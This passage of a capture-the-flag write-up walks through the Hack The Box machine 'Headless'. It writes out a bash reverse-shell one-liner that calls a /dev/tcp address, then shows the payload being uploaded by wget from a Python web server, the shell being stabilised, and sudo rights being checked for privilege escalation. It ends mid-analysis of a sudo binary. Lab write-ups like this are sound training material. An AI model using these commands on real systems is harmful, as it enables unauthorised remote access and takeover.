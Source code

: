 
-----------------
from here You can easily grab the user flag by just exploring the file system and trying some different directories.
![exploring files](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/exploring_files.jpg)

But it is not the good way. It'd be better if we get a reverse shell first because gaining a reverse shell is the ideal thing in pentesting. So lets fire up a netcat listener on port 1234 and upload a reverse shell on victim machine.

step 1 => build an executable file with payload to get reverse shell.
```bash
echo "bash -i >& /dev/tcp/10.10.14.116/1234 0>&1;" > reverse_shell.sh
chmod +x reverse_shell.sh
```
step 2 => start the python server with `python -m http.server` and then use `wget http://<ipaddress>port/`to upload reverse shell on victim's machine.
![upload reverse shell](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/upload_reverseshell.jpg)

Now since the reverse shell is uploaded, lets run the script using `bash reverse_shell.sh` command. We got the reverse shell. Now again exploring through the file system we can easily acquire the user flag.
![user flag](https://raw.githubusercontent.com/cyb3ritic/images/refs/heads/master/htb/machines/headless/user_flag.jpg)


## Privilege Escalation

As we see, we have some got some broken shell.
Let's first stabilize the shell using the following command:
```bash
    python3 -c 'import pty;pty.spawn("/bin/bash")’
    export TERM=xterm

    press Ctrl + Z

    stty raw -echo; fg
```

Checking for what commands can be run by out user with sudo previlege using `sudo -l` command:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck

```
So, divr can run /usr/bin/syscheck with root previlege. Let's try to exploit this thing.

when we cat out /usr/bin/syscheck, we got that some initdb.sh file is getting executed.
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

```
